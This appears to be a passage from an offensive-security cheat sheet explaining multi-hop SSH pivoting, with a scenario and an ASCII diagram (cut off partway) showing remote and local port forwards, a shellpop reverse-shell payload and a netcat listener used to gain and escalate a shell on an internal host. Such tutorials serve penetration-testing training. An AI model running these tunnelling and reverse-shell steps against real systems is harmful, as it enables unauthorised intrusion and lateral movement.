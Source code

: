 Consider the following example. An attacker has root privileges on Pivot1. He creates the first SSH tunnel (remote port forwarding) to interact with a vulnerable web server on Pivot2. Then he exploits the vulnerability on Pivot2 and triggers it to connect back to Attacker via a reverse-shell (firewall is active, so he needs to pivot through port 443, which is allowed). After that the attacker performs PE on Pivot2 and gets root. Then he creates another tunnel (local port forwarding) over the first one to SSH into Pivot2 from Attacker. Finally, he forwards port 80 over two existing hops to reach another vulnerable web server on Victim.

```
  Attacker (10.10.13.37)                                                    Pivot1 (10.1.1.1)                                  Pivot2 (10.2.2.2)                   Victim (10.3.3.3)
┌──────────────────────────────────────────────────────────────────────┐  ┌───────────────────────────────────────────────┐  ┌────────────────────────────────┐  ┌───────────────────┐
│                                                                   22 │  │                                               │  │                                │  │                   │
│ 1.  ssh -R 443:127.0.0.1:9001 root@10.1.1.1 ------------------------------► 10.1.1.1:22                                 │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 2.                                                                   │  │   Listens 0.0.0.0:443 ("GatewayPorts yes")    │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 3.                                                                   │  │   ~C ssh> -L 9002:10.2.2.2:80                 │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 4.  Listens 127.0.0.1:9002 (to interact with web server 10.2.2.2:80) │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 5.  shellpop -H 10.2.2.2 -P 443 --reverse --number 8 --base64        │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                9001 over 10.1.1.1:22 │  │                                           443 │  │                                │  │                   │
│ 6.  rlwrap nc -lvnp 9001 ◄--- 127.0.0.1:9001 ◄----------------------------- 0.0.0.0:443 ◄───────────────────────────────┼──┼── Web server 10.2.2.2:80       │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 7.  Got shell from 10.2.2.2                                          │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 8.  Got root on 10.2.2.2                                             │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                                      │  │   ~C ssh> -L 9003:127.0.0.1:1337              │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 9.  Listens 127.0.0.1:9003                                           │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                                      │  │                                            22 │  │                                │  │                   │
│                                                                      │  │   ssh -L 1337:127.0.0.1:22 root@10.2.2.2 ----------► 10.2.2.2:22                  │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
```